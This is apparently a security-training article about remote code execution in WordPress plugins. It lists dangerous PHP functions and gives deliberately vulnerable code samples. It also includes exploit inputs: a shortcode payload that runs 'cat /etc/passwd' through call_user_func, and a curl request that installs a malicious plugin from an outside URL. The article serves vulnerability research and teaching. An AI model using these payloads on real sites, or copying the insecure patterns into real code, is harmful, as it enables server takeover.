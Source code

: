 ```yaml
---
title: Remote Code Execution (RCE)
head:
    - tag: title
      content: Learn about Remote Code Execution (RCE)
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible direct RCE on WordPress. This includes improper usage of functions inside of the plugin/theme which can be used to directly execute code or command on the server.

<LinkCard
  title="Learn how to secure your code against RCE"
  href="/academy/wordpress/securing-code/remote-code-execution/"
/>

## Useful Functions

Several functions could be useful to identify a possible RCE vulnerability:

- [`system`](https://www.php.net/manual/en/function.system.php)
- [`exec`](https://www.php.net/manual/en/function.exec.php)
- [`shell_exec`](https://www.php.net/manual/en/function.shell-exec.php)
- [`passthru`](https://www.php.net/manual/en/function.passthru.php)
- [`proc_open`](https://www.php.net/manual/en/function.proc-open.php)
- [`eval`](https://www.php.net/manual/en/function.eval.php)
- [`call_user_func`](https://www.php.net/manual/en/function.call-user-func.php)
- [`call_user_func_array`](https://www.php.net/manual/en/function.call-user-func-array.php)
- [`create_function`](https://www.php.net/manual/en/function.create-function.php) *DEPRECATED as of PHP 7.2.0, and REMOVED as of PHP 8.0.0*

## Dynamic Function Call

PHP also supports a dynamic function call where we can execute a function from a string or variable. For example :

```php
$action_type = $_GET["action"];
$input = $_GET["input"];

echo $action_type($input);
```

We can just simply supply the `action` parameter with arbitrary function such as `system` and put our shell command on the `input` parameter.

## Example Cases

Below is an example of vulnerable code:

```php
function image_render_callback($atts) {
	$atts = shortcode_atts( array(
		'sanitize' => 'esc_attr',
		'src'=>'',
        'text'=>''
	), $atts);

    $chosen_callback = "esc_attr";
    $sanitize_callback = array("trim", "esc_attr", "esc_html", "sanitize_text_field");
    if(!in_array($atts["sanitize"], $sanitize_callback)){
        $chosen_callback = $atts["sanitize"];
    }

    if ( ! empty( $chosen_callback ) && is_callable( $chosen_callback ) ) {
        $text = call_user_func( $chosen_callback, $atts["text"] );
    }

    return sprintf("<img src='%s'>%s</img>", esc_attr($atts["src"]), esc_html($text));

}

add_shortcode("imagerender", "image_render_callback");
```

To exploit this, the Contributor+ role user simply needs to create a drafted post with the below content to trigger RCE via `call_user_func` function:

```json
[imagerender src="https://patchstack.com" sanitize="system" text="cat /etc/passwd"]
```

## Arbitrary Plugin Installation

If there is no proper permission check while installing the plugins, it can lead to Remote Code Execution. An attacker can just create a malicious ZIP and provide it as the source to install the webshell in the WP site.

```php
add_action('wp_ajax_nopriv_install_remote_plugin', function() {
    if (isset($_GET['install_plugin_url'])) {
        $plugin_url = esc_url_raw($_GET['install_plugin_url']);

        include_once ABSPATH . 'wp-admin/includes/class-wp-upgrader.php';
        include_once ABSPATH . 'wp-admin/includes/file.php';
        include_once ABSPATH . 'wp-admin/includes/misc.php';

        $upgrader = new Plugin_Upgrader();
        $upgrader->install($plugin_url);
    }
});
```

To exploit this, any unauthenticated user just needs to perform a GET request to the `/wp-admin/admin-ajax.php` endpoint specifying the remote URL of the malicious plugin.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=install_remote_plugin&install_plugin_url=http://<malicious-url>
```

Below are some of the findings related to RCE:

- [Authenticated RCE in JetElements For Elementor Plugin](https://patchstack.com/articles/authenticated-rce-in-jetelements-for-elementor-plugin/)
- [Critical RCE Patched in Bricks Builder Theme](https://patchstack.com/articles/critical-rce-patched-in-bricks-builder-theme/)
- [Critical Vulnerability Found in GOTMLS Plugin](https://patchstack.com/articles/critical-vulnerability-found-in-gotmls-plugin/)
- [Unpatched Authenticated RCE in Oxygen and Breakdance Builder](https://patchstack.com/articles/unpatched-authenticated-rce-in-oxygen-and-breakdance-builder/)